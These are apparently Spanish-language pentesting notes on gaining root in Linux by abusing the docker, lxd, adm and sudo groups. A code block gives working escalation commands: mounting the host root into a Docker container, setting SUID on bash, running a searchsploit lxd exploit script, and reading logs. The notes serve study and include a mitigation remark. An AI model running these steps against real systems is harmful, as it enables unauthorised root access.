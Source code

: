 # Abuso de grupos de usuario especiales

Tags: #Linux #GruposExpeciales  #Escalada #Root #Privilegios 

En el contexto de Linux, los **grupos** se utilizan para **organizar** a los usuarios y **asignar** **permisos** para acceder a los recursos del sistema. Los usuarios pueden pertenecer a uno o varios grupos, y los grupos pueden tener diferentes niveles de permisos para acceder a los recursos del sistema.

Existen grupos especiales en Linux, como ‘**lxd**‘ o ‘**docker**‘, que se utilizan para permitir a los usuarios ejecutar contenedores de manera segura y eficiente. Sin embargo, si un usuario malintencionado tiene acceso a uno de estos grupos, podría aprovecharlo para obtener privilegios elevados en el sistema.

Por ejemplo, si un usuario tiene acceso al grupo ‘**docker**‘, podría utilizar la herramienta Docker para desplegar nuevos contenedores en el sistema. Durante el proceso de despliegue, el usuario podría aprovecharse de las **monturas** (**mounts**) para hacer que ciertos recursos inaccesibles en la máquina host estén disponibles en el contenedor. Al ganar acceso al contenedor como usuario ‘**root**‘, el usuario malintencionado podría inferir o manipular el contenido de estos recursos desde el contenedor.

Para mitigar el riesgo de abuso de grupos de usuario especiales, es importante limitar cuidadosamente el acceso a estos grupos y asegurarse de que sólo se asignan a usuarios confiables que realmente necesitan acceder a ellos.


## Grupos Especiales 

```bash 
❯ id                     # Para ver a que grupos estamos asignados 

# Grupos especiales: 
	# sudo = Si estas en estre grupo y disponemos de la passwd del usuario, podemos ejecutar comandos como el usuario 'root'


	# docker = Si estas en este grupo puedes usar los sig. comandos (docker images, docker ps, docker pull ubuntu:latest)
		❯ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu # Desplegaremos un contenedor con una montura de la raiz actual y que la monte en el dir /mnt/root del contenedor
		❯ docker exec -it privesc bash # Para ingresar al contenedor y que nos de una bash para poder ver todos los recursos  
		❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima del usuario fuera del contenedor ya que como hicimos una copia de la raiz del usuario legitimo, todo lo que hagamos dentro del contenedor sera reflejado afuera de el
		❯ ls -l /bin/bash              # Listar los permisos de la bash 
		❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID


	# adm = Si estas en este grupo, podras leer los logs del sistema
		❯ ls -l /var/log/
		❯ cat /var/log/apache2/access.log


	# lxd = Si estas en este grupo, puedes escalar por medio de monturas, utilizando el exploit 
		❯ searchsploit lxd
		❯ searchsploit -m 46978.sh 
		# Descargas la imagen de Alpine, la url esta dentro del script 
		❯ bash build-alpine    # Aclarar que lo debemos de hacer en la maquina de atacante porque nos pide ser root y despues transferimos a la victima lo sig: (privesc.sh, alpine-v3.17-x86_64.tar.gz)
		❯ ./privesc.sh -f alpine-v3.17-x86_64.tar.gz   # Por defecto nos creara un contenedor y nos dara una consola como root dentro del contenedor
		❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima
		❯ ls -l /bin/bash              # Listar los permisos de la bash
		❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID
	
```

